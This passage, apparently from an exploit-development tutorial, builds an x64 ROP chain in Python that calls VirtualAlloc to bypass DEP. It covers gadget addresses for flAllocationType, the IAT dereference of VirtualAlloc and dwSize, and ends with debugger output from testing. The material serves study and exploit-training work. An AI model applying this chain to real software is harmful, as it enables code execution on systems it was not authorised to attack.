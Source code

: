 ```python
# flAllocationType - r8 
# ---------------------------------------------------------------------------------
for n in range(0, 0x40, 1):
    buffer += pack("<Q", base_address + 0x3918)     # add r8, r9 ; add rax, r8 ; ret ;
```

## VirtualAlloc

Next I stored the address of `VirtualAlloc` in `rax`; it will become clear why when I show how I set the value for `dwSize`. This ROP chain uses a common technique; I popped the IAT address for `VirtualAlloc` into `rax` and then dereferenced the address into `rax`:

```python
# VirtualAlloc call - rax (will jump to rax later)
# ---------------------------------------------------------------------------------
buffer += pack("<Q", base_address + 0x150a)         # pop rax ; ret ;
buffer += pack("<Q", base_address + 0x20000)        # VirtualAlloc IAT address
buffer += pack("<Q", base_address + 0x1547f)        # mov rax, qword [rax] ; add rsp, 0x28 ; 
																										# ret ;
buffer += b"B" * 0x28                               # padding for add rsp, 0x28
# rax contains the address of VirtualAlloc
```

> [!NOTE]
>
> Notice the padding that is required as a consequence of the `add rsp, 0x28` instruction.

## dwSize

Looking at the code, it should be clear why this gadget has been left until last. I needed to set `dwSize` to `0x1000` and `r8` already contained this value from the `flAllocationType` parameter. I moved it into `rdx`. The gadget also had a jump to the value in `rax` which is pointing to the `VirtualAlloc` function.

```python
 # dwSize - rdx
 # ---------------------------------------------------------------------------------
 buffer += pack("<Q", base_address + 0x5adb)         # mov rdx, r8 ; jmp rax ;
```

This is a great gadget as we don't need to `push rax` on to the stack, it simply calls the function and when the `ret` is hit at the end of the function our next gadget will be executed.

## Testing

I tested the ROP chain, first I examined the stack before the jump to `VirtualAlloc`:

```
0:003> !address rsp
...
Usage:                  Stack
Base Address:           0000009c`9e5fd000
End Address:            0000009c`9e600000
Region Size:            00000000`00003000 (  12.000 kB)
State:                  00001000          MEM_COMMIT
Protect:                00000004          PAGE_READWRITE
Type:                   00020000          MEM_PRIVATE
Allocation Base:        0000009c`9e500000
Allocation Protect:     00000004          PAGE_READWRITE
```


[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"